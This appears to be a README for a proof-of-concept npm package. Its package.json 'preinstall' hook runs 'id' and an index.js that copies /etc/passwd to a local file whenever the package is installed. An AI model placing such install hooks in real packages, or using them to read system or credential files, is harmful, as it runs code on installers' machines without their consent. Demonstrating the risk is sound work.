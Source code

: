 # RCE PoC Package

This PoC package shows how arbitrary system commands and JavaScript code can be executed
when a malicious npm package is installed.

[![Video demo]](https://youtu.be/hFtL_4gvqog)

You can reproduce the proof of impact PoC from the video by following these steps:

1) On a machine with Node.js and npm installed, create a new directory
2) Save the index.js and package.json from this directory to your new directory
3) In the directory with both files, execute

```
npm install .
```

### index.js

```js
const fs = require('fs');

fs.copyFile("/etc/passwd", "etc_passwd.txt", (err) => {
  if (err) throw err;
  console.log("error");
});
```

This file will copy the contents of the /etc/passwd file to etc_passwd.txt.

### package.json

```json
{
  "name": "this-is-critical",
  "version": "1.3.37",
  "description": "Installing malicious packages from npm leads to RCE (a critical bug).",
  "main": "index.js",
  "scripts": {
    "test": "",
    "preinstall": "id > rce.txt && node index.js"
  },
  "author": "",
  "license": "ISC"
}
```

The commands in the preinstall section are executed when running npm install.

So by executing npm install, the output of id is saved to rce.txt and index.js is executed, which will save the /etc/passwd file to etc_passwd.txt